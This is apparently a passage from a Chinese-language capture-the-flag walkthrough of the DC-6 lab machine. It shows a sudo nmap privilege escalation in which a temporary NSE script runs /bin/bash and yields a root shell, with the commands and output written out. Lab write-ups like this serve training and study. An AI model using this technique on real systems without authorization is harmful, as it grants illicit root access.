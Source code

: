我们可以以root身份运行nmap

```
jens@dc-6:~$ ls -al /usr/bin/nmap
-rwxr-xr-x 1 root root 2838168 Dec 22  2016 /usr/bin/nmap
```

我们无法修改这个文件。 但是我们可以编写一个 NSE 脚本并使用 nmap 执行它：

```
jens@dc-6:~$ TF=$(mktemp)
jens@dc-6:~$ echo 'os.execute("/bin/bash")' > $TF
jens@dc-6:~$ sudo nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2023-08-17 11:45 AEST
NSE: Warning: Loading '/tmp/tmp.ZaLlxZidDE' -- the recommended file extension is '.nse'.
root@dc-6:/home/jens#
```

可以看到权限获得了root权限
